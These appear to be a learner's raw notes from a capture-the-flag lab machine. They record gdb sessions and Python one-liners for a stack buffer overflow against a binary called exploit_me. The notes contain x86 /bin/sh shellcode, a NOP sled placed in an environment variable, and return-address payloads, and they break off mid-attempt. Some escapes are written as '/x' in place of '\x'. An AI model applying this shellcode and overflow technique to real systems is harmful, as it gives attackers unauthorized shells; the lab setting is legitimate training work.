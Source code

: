 Breakpoint 1, 0x080483f7 in main ()
(gdb) x/10s *((char**)environ)
0xbffff8d5:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xbffff929:      "SHELL=/bin/bash"
0xbffff939:      "TERM=xterm-256color"
0xbffff94d:      "SSH_CLIENT=192.168.31.1 61936 22"
0xbffff96e:      "SSH_TTY=/dev/pts/0"
0xbffff981:      "USER=zaz"
0xbffff98a:      "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffffa52:      ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffb1a:      "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffbe2:      ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...


0xbffff8d5 -> /xd5/xf8/xff/xbf

(gdb) x /150xg 0xbffff8d5
0xbffff8d5:     0x444f434c4c454853      0x9090909090903d45
0xbffff8e5:     0x9090909090909090      0x9090909090909090
0xbffff8f5:     0x9090909090909090      0x9090909090909090
0xbffff905:     0x9090909090909090      0x6850c03190909090
0xbffff915:     0x69622f6868732f2f      0xb0e1895350e3896e
0xbffff925:     0x4c4548530080cd0b      0x622f6e69622f3d4c
0xbffff935:     0x4d52455400687361      0x322d6d726574783d



Address in nop sled
0xbffff8f5 -> /xf5/xf8/xff/xbf

`python -c 'print "A" * 140 + "/xdf/xf8/xff/xbf"`


0xbffff8c7 

0xbffff8e7   `python -c 'print "A" * 140 + "/xe7/xf8/xff/xbf"'`


it doesn't work :(




zaz@BornToSecHackMe:~$ export SHELLCODE=`python -c 'print "\x90" * 900 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
zaz@BornToSecHackMe:~$ gdb ./exploit_me
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me